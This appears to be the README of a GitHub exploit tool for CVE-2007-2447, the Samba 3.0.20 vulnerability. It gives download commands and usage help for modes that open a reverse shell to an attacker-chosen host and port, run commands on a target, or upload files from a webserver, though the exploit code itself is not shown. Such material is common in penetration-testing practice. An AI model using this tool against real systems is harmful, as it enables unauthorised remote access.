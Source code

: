 # CVE-2007-2447: Samba 3.0.20 Exploit

https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2007-2447

## Installation

Clone this repository or download the `exploit.py` directly.

`git clone https://github.com/Bode-Raymond/Custom-Tools/`

`wget https://raw.githubusercontent.com/Bode-Raymond/Custom-Tools/main/Samba%203.0.20%20Exploit%20Script/exploit.py`

Install the required python modules

`pip install -r requirements.txt`

Run the script using python 3

`python3 exploit.py`

## Available Modes

- shell - Start a reverse shell on the target
- rce - Execute commands on the target
- upload - Upload a file to a specified location on the target

## Help Menus

### Default Help

```
Usage: python3 exploit.py <option> <arguments>

Options:
shell	Start a reverse shell
rce	Execute commands on the target
upload	upload file to target from webserver
```

### `Shell` Mode Help

```
python3 exploit.py shell <lhost> <lport> <rhost> <rport>

lhost	Local host IP
lport	Local host listening port
rhost	Remote host IP
rport	Remote host SMB port
```

### `RCE` Mode Help

```
python3 exploit.py rce <command> <rhost> <rport>

command	shell command to be executed, no output
rhost	Remote host IP
rport	Remote host SMB port
```

### `Upload` Mode Help

```
python3 exploit.py upload <url> <target-location> <rhost> <rport>

url		location of target file (use public ip)
target-location	Target file on the target computer
rhost		Remote host IP
rport		Remote host SMB port
```

